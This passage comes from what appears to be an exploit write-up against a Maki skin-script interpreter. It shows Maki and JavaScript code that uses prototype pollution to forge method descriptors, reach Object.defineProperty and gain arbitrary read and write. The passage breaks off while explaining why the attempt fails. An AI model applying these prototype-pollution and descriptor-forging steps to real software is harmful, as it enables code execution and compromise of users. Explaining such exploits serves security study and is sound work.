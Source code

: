### Forging a Method Descriptor

Our next step is to combine our previous ideas into a powerful new primitive. We can use our prototype pollution to make out-of-bounds call instructions refer to anything we want. We previously just pointed it at the existing BitList implementation, but there's nothing that says we can't use the same primitive to forge an entirely new "Maki class" whose method implementations point to fun things like `Object.defineProperty`!

Why `Object.defineProperty`? Well, this gets us the ability to both read and write arbitrary fields. We can write by using `defineProperty` directly, and we can read by setting the `_items` of an `BitList` instance to whatever we want, and then using the `getitem` function. Two flies with one stone.

Let's first grab `Object.prototype`:

```maki
// The actual code for this is way too long, but assume that it's just more of the
// arbitrary property reading using setitem(__proto__, x); getitem(y) to get x[y].
Object Object_prototype = getObject(anyObject, "_uiRoot._bitmaps.constructor");
```

In order to call `defineProperty`, we'll need to forge the objects that the Maki interpreter expects to see when it indexes into `this.methods`. Let's forge some objects! In my exploit, I use some wrapper JavaScript code for making it easier to construct the necessary Maki code for writing objects, but the idea is the same:

```javascript
// build function list
let functions = w(makeObj([
    { name: "defineproperty", parameters: { length: 3 } }
]));

// build class descriptor as returned by `classResolver`
let klass = w(makeObj({
    prototype: raw(Object_prototype),
    functions: raw(functions)
}));

// build method descriptor
let methodDesc = w(makeObj({
    name: "defineProperty",
    typeOffset: "object_typeoffset",
}));
```

We can then corrupt some more fields on the Object prototype:

```maki
System.getPrivateString("__proto__", "254", methodDesc);
System.getPrivateString("__proto__", "object_typeoffset", "object_guid");
System.getPrivateString("__proto__", "object_guid", klass);
```

Ideally, we can now use a call instruction with offset `254` to call `defineProperty`!

Except, this doesn't work. The reason is clear if we look at the start of the call instruction again:

